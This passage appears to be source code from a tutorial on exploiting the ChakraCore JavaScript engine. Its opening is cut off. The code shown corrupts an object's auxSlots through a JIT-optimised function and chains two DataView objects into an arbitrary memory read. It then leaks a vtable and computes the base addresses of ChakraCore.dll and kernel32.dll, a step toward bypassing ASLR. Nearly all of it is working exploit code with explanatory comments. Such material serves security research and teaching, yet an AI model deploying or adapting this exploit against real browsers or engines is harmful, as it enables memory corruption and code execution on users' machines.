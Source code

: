 ```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));
}

main();
```
